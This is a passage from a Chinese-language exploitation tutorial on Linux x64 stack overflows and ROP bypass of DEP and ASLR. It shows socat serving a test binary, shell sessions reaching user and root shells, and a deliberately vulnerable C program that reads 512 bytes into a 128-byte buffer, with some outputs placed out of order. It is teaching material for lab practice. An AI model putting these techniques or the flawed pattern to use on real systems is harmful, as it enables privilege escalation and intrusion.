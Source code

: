 将二进制程序设置为服务端程序, 后续文章不再说明

```
panda@ubuntu:~/Desktop/test$ python test.py 
\[+\] Starting local process './linux\_x64\_test1': pid 117455
\[\*\] Switching to interactive mode
Hello, World
$ whoami
panda
```

测试远程程序

```
socat TCP4-LISTEN:10001,fork EXEC:./linux\_x64\_test1
```

如果这个进程是 root

```
panda@ubuntu:~/Desktop/test$ python test2.py 
\[+\] Opening connection to 127.0.0.1 on port 10001: Done
\[\*\] Switching to interactive mode
Hello, World
$ whoami
panda
```

测试远程程序，提权成功

```
sudo socat TCP4-LISTEN:10001,fork EXEC:./linux\_x64\_test1
```

### 实践 2 栈溢出通过 ROP 绕过 DEP 和 ASLR 防护

#### 编译测试用例

开启 ASLR 后, libc 地址会不断变化, 这里先不讨论怎么获取真实 system 地址，用了一个辅助函数打印 system 地址。

```
panda@ubuntu:~/Desktop/test$ python test.py 
\[+\] Opening connection to 127.0.0.1 on port 10001: Done
\[\*\] Switching to interactive mode
Hello, World
$ whoami
root
```

编译方法：

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <dlfcn.h>
void systemaddr()
{
    void\* handle = dlopen("libc.so.6", RTLD\_LAZY);
    printf("%p\\n",dlsym(handle,"system"));
    fflush(stdout);
}
void vulnerable\_function() {
    char buf\[128\];
    read(STDIN\_FILENO, buf, 512);
}
int main(int argc, char\*\* argv) {
    systemaddr();
    write(1, "Hello, World\\n", 13);
    vulnerable\_function();
```